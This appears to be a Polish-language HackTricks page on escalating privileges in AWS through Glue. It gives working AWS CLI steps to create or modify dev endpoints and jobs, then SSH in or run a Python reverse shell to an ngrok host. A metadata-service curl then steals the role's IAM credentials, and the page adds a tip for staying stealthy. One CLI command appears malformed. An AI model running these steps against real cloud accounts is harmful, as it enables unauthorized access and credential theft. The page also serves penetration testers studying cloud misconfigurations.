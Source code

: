 # AWS - Glue Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## glue

### `iam:PassRole`, `glue:CreateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Użytkownicy z tymi uprawnieniami mogą **ustawić nowy punkt końcowy AWS Glue do rozwoju**, **przypisując istniejącą rolę serwisową, którą można przyjąć przez Glue**, z określonymi uprawnieniami do tego punktu końcowego.

Po skonfigurowaniu, **atakujący może SSH do instancji punktu końcowego**, i ukraść poświadczenia IAM przypisanej roli:
```bash
# Create endpoint
aws glue create-dev-endpoint --endpoint-name <endpoint-name> \
--role-arn <arn-role> \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
Aby zachować dyskrecję, zaleca się użycie poświadczeń IAM z wnętrza wirtualnej maszyny Glue.

**Potencjalny wpływ:** Privesc do roli usługi glue określonej.

### `glue:UpdateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Użytkownicy z tym uprawnieniem mogą **zmienić istniejący klucz SSH** punktu końcowego rozwoju Glue, **umożliwiając dostęp SSH do niego**. To pozwala atakującemu na wykonywanie poleceń z uprawnieniami przypisanej roli punktu końcowego:
```bash
# Change public key to connect
aws glue --endpoint-name target_endpoint \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
**Potencjalny wpływ:** Privesc do roli usługi glue używanej.

### `iam:PassRole`, (`glue:CreateJob` | `glue:UpdateJob`), (`glue:StartJobRun` | `glue:CreateTrigger`)

Użytkownicy z **`iam:PassRole`** w połączeniu z **`glue:CreateJob` lub `glue:UpdateJob`**, oraz **`glue:StartJobRun` lub `glue:CreateTrigger`** mogą **tworzyć lub aktualizować zadanie AWS Glue**, przypisując dowolne **konto usługi Glue**, i inicjować wykonanie zadania. Możliwości zadania obejmują uruchamianie dowolnego kodu Python, co można wykorzystać do ustanowienia odwrotnego powłoki. Ta odwrotna powłoka może być następnie wykorzystana do wykradzenia **poświadczeń IAM** roli przypisanej do zadania Glue, co prowadzi do potencjalnego nieautoryzowanego dostępu lub działań opartych na uprawnieniach tej roli:
```bash
# Content of the python script saved in s3:
#import socket,subprocess,os
#s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
#s.connect(("2.tcp.ngrok.io",11216))
#os.dup2(s.fileno(),0)
#os.dup2(s.fileno(),1)
#os.dup2(s.fileno(),2)
#p=subprocess.call(["/bin/sh","-i"])
#To get the IAM Role creds run: curl http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy


# A Glue role with admin access was created
aws glue create-job \
--name privesctest \
--role arn:aws:iam::93424712358:role/GlueAdmin \
--command '{"Name":"pythonshell", "PythonVersion": "3", "ScriptLocation":"s3://airflow2123/rev.py"}'

# You can directly start the job
aws glue start-job-run --job-name privesctest
# Or you can create a trigger to start it
aws glue create-trigger --name triggerprivesc --type SCHEDULED \
--actions '[{"JobName": "privesctest"}]' --start-on-creation \
--schedule "0/5 * * * * *"  #Every 5mins, feel free to change
```
**Potencjalny wpływ:** Privesc do roli usługi glue określonej.

### `glue:UpdateJob`

Tylko z uprawnieniem do aktualizacji atakujący mógłby ukraść poświadczenia IAM już przypisanej roli.

**Potencjalny wpływ:** Privesc do roli usługi glue przypisanej.

## Referencje

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
